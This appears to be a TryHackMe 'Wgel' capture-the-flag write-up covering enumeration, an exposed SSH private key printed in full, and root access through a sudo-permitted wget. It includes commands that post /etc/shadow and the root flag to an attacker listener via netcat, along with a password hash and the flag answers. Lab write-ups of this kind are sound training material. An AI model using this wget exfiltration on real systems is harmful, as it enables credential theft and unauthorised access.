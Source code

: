 # TryHackMe: Wgel CTF Writeup

## Enumeration:
	
### Port Scan:

First started with an NMap scan:
	
```shell
sudo nmap -vv -sC -sV -sS -oN nmap_out.txt {MACHINE IP}
```

The scan returned the following ports:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
```

Full scan information saved in [nmap_out.txt](./nmap_out.txt)

### Directory Enumeration:

I then initiated a GoBuster scan:
	
```shell
gobuster -e -t 50 -u {MACHINE IP} -w common.txt -x .php,.txt,.js,.html
```

(I also ran GoBuster on the subdirectories I found. I put all the directories on the list below)

Returned the following:
	
```
http://{MACHINE IP}/index.html (Status: 200)
http://{MACHINE IP}/index.html (Status: 200)
http://{MACHINE IP}/sitemap (Status: 301)
http://{MACHINE IP}/sitemap/.ssh (Status: 301)
http://{MACHINE IP}/sitemap/about.html (Status: 200)
```

### SSH Private Key:
	
I looked into the **http://{MACHINE IP}/sitemap/.ssh** directory, and found the file **id_rsa**:
	
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

This will be very useful. Now we just need to find a username that works.

### Website Exploration:
	
I opened the **"http://{MACHINE IP}/index.html"** website on my browser:
	
![Home Page](./screenshots/home_page.png)

As far as I can see, it is supposed to be a App/Portfolio/Blog website. I tried traversing through the website, I found a contact form on the **"http://{MACHINE IP}/sitemap/contact.html"** page:
	
![Contact Form](./screenshots/contact_form.png)

When the form is submitted, it sends out the following GET request:
	
```
http://{MACHINE IP}/sitemap/contact.html?message={your message here}
```

I put the URL into SQLMap to check for vulnerabilities:
	
```
sqlmap -u "http://{MACHINE IP}/sitemap/contact.html?message=hello*"
```

SQLMap did not find any vulnerabilities in the URL... ...Back to the drawing board.

On the **http://{MACHINE IP}/sitemap/about.html** page, there is a list of employees. I thought maybe it is possible to SSH in with their names.

![employees](./screenshots/employees.png)

I did not find any success with that.

I looked throughout the source code, and I found this:
	
![Username "Jessie"](./screenshots/username_in_source_code.png)

Perhaps this is a username I could ssh into?

So I tried it:
	
```shell
ssh jessie@10.10.240.122 -i id_rsa

---
jessie@CorpOne:~$ 

```

Yes! We are in! Now let's see if we can find that user flag:
	
```shell
find / -type f -name 'user*' 2>/dev/null
```

It returned the following:

```
...
/home/jessie/.config/user-dirs.dirs
/home/jessie/.config/dconf/user
/home/jessie/Documents/user_flag.txt
```

Here is the contents of **user_flag.txt**:
	
```
057c67131c3d5e42dd5cd3075b198ff6
```

## Privelege Escalation:
	
I then checked for privelege escalation vectors. I entered the following:
	
```shell
jessie@CorpOne:~$ sudo -l

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

It looks like we have super-user permissions to run the **"wget"** program. I looked into exploits for wget, and found this one: [wget_exploit](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)

To start, I set up a NetCat listener on my attacker machine, and I directed the output to a file called **hash**:
	
```shell
sudo nc -nlvp 80 > hash
```

Then, on the TryHackMe Machine, I ran the following command:
	
```shell
sudo /usr/bin/wget --post-file=/etc/shadow {TryHackMe_VPN_IP}
```

I'll parse out exactly what's going on: We are using wget(with which we have sudo priveleges) to retrieve the **/etc/shadow** file(which contains password hashes), and sending it to our attacking PC. Since the attacking PC has a NetCat listener running, it catches the info, and stores it in the **hash** file.

Here are the results in our **hash** file:
	
```
...
jessie:$6$0wv9XLy.$HxqSdXgk7JJ6n9oZ9Z52qxuGCdFqp0qI/9X.a4VRJt860njSusSuQ663bXfIV7y.ywZxeOinj4Mckj8/uvA7U.:18195:0:99999:7:::
sshd:*:18195:0:99999:7:::
```

I then put the hash into hashcat. After running it for about 30 minutes, I still came up with nothing. Since this is an "easy" CTF, I assume that they do not expect you to spend hours cracking the password.

Well, no big deal. With this "wget" exploit, we can still read any file with root priveleges. We just don't know where the flag is. Usually on CTFs, they put the flag in the **"/root/"** directory. Seeing that the user flag was named **"user_flag.txt"** I'll try to wget the **"/root/root_flag.txt"** file, and see if it exists:
	
First, I set up another NetCat listener on my attacking PC:
	
```shell
sudo nc -nlvp 80 > root_flag.txt
```

Then I run the wget exploit again, except I change the post-file to **"/root/root_flag.txt"**:
	
```shell
jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/root/root_flag.txt {TryHackMe_VPN_IP}
```
	
It looks like it worked! Here is the contents of the root_flag.txt file on our attacking PC:
	
```
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.9.221.49
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1b968b37519ad1daa6408188649263d
```

That Part at the bottom is the flag! That is it! I hope you enjoyed this and found it informative!

















































































